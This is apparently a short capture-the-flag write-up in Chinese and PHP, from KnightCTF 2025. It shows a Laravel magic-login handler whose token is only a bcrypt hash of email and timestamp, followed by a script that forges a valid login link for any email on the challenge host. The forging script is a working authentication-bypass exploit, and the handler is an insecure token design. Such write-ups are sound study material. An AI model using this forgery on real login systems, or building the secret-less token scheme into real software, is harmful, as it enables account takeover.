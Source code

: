 ```php
    }

    if (time() - $time > 3600) {
        return response('Token expired', 401);
    }

    $data = $email . '|' . $time;
    if (!Hash::check($data, $token)) {
        return response('Token validation failed', 401);
    }

    $user = User::where('email', $email)->first();

    if (!$user) {
        return response('User not found', 404);
    }

    session(['user_id' => $user->id]);
    session(['is_admin' => $user->is_admin]);

    return redirect()->route('users');
}
```

自己生成連結
```php
<?php
$time = 1737404363;
$email="nomanprodhan@knightconnect.com";


$data = $email . '|' . $time;

$token = password_hash($data, PASSWORD_BCRYPT);

$loginUrl = '/login-link?token=' . urlencode($token) . '&time=' . $time . '&email=' . urlencode($email);
echo "https://kctf2025-knightconnect.knightctf.com".$loginUrl;
```

即可登入任意根據email的帳號
![image](/images/2025/01/rkIKdN2D1g.png)
